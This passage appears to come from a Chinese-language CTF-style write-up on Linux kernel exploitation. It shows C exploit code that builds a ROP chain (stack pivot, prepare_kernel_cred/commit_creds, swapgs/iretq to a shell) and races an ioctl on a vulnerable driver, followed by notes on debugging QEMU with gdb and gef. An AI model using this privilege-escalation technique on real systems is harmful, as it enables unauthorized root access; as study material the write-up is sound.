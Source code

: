 ```c
    
    *(void **)(&args.addr[0])    = (void *)0; // pop r13
    *(void **)(&args.addr[0x8])  = (void *)0; // pop rbp
    *(void **)(&args.addr[0x10]) = pop_rsp;   // ret
    *(void **)(&args.addr[0x18]) = &ropchain[rop_start]; 
    *(void **)(&args.addr[0x58]) = push_rdi_xxx_pop_rsp; // cleanup, hijack rip, do stack pivoting

    ropchain[rop_idx++]  = pop_rdi_ret;
    ropchain[rop_idx++]  = 0;
    ropchain[rop_idx++]  = prepare_kernel_cred;
    ropchain[rop_idx++]  = mov_rdx_r8;   
    ropchain[rop_idx++]  = mov_rdi_rax; // this gadget needs that rdx equals to r8
    ropchain[rop_idx++]  = commit_creds;
    ropchain[rop_idx++]  = swapgs_pop_rbp;
    ropchain[rop_idx++]  = 0;
    ropchain[rop_idx++]  = iretq;
    ropchain[rop_idx++]  = get_shell; // memory crrupted, nani ?!?!
    ropchain[rop_idx++] = (void *)user_cs;
    ropchain[rop_idx++] = (void *)user_eflags;
    ropchain[rop_idx++] = (void *)user_sp;
    ropchain[rop_idx++] = (void *)user_ss;

    printf("sleep 3sec...\n");
    sleep(3);
    printf("go race...\n");

    pthread_t t2;
    pthread_create(&t2, NULL, race, NULL);

    while(1) {
        // note_write();
        ioctl(fd, 0xC12ED003, &args);
    }

    pthread_join(t2, NULL);
}
```
- 能執行到 `get_shell()`, 只是接著就說 memory crrupted 了 QQ

# Debug with gdb
gdb plugin 我是使用 gef (而不是 peda, 它 remote debug 好像會怪怪的), 找一下 gef github 就知道怎裝了

在你的 start.sh 裡面修改一下, 替 qemu 多加 `-gdb tcp::6666` 參數, 讓你的 gdb 能夠連進去

接著運行 start.sh 後, gdb 這邊下
```
set architecture i386:x86-64
gef-remote -q localhost:6666
```

或是你也可以在 ~/.gdbinit 新增
```
define qemu
    set architecture i386:x86-64
    gef-remote -q localhost:6666
end
```
